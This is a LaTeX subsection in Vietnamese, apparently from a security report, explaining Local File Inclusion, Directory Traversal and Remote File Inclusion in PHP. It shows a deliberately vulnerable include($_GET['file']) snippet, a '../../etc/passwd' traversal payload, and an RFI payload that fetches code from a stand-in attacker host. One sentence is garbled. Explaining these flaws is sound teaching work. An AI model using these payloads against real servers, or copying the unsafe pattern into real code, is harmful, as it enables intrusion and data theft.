 \documentclass[./../main.tex]{subfiles}
\begin{document}
\subsection{Local File Inclusion và Directory Traversal}
Local File Inclusion là lỗ hổng làm cho máy chủ làm lộ hoặc thực thi các
nội dung tập tin trên máy chủ đó. Trong các trường hợp như PHP, khi được
phép tải lên tùy ý tập tin lên thì lỗ hổng này có thể dẫn đến thực thi lệnh
trái phép trên máy chủ Web.

Ví dụ như đoạn mã sau:

\begin{lstlisting}[language=php, caption=Local File Inclusion]
    $file = $_GET['file'];
    include($file);
\end{lstlisting}

Với ví dụ trên, khi người dùng được phép tải lên tập tin tùy ý sẽ khiến cho có thể thực thi bất kì đoạn mã nào do PHP cho phép xử lý động các đoạn mã
khi được gọi câu lệnh `include'. Ví dụ như tham số `file' là `/var/www/upload/evil.php' Với `evil.php' là tập tin có chứ các đoạn mã thực thi lệnh
trái phép.

Kể cả khi không được tải lên tùy ý, lỗ hổng Local File Inclusion cũng
thường được kết hợp với Directory Traversal, cho phép tùy ý đọc tập tin
tại vị trí không được phép để làm lộ các thông tin nhạy cảm của hệ thống.

Ví dụ với tham số được chèn `../../etc/passwd' sẽ khiến thông tin về tập
tin `/etc/passwd' được trả về cho người dùng.

\subsection{Remote File Inclusion}

Tương tự như Local File Inclusion, Remote File Inclusion cho phép máy chủ
làm lộ hoặc thực thi các tập tin nhưng với nội dung từ xa. Thường thì các
dẫn đến thực thi lệnh trái phép trên máy chủ Web.

Tiếp tục với ví dụ của lỗ hổng Local File Inclusion, khi tùy chọn `php allow{\_}url{\_}fopen' được bật sẽ cho phép PHP tải về các nội dung trong URL. Nếu kẻ tấn công đưa vào tham số `file' là `http://attacker.example.com/evil.php' thì kẻ tấn công có thể thực thi lệnh trên máy chủ PHP.

\section{Các công cụ rà quét lỗ hổng}
\end{document}
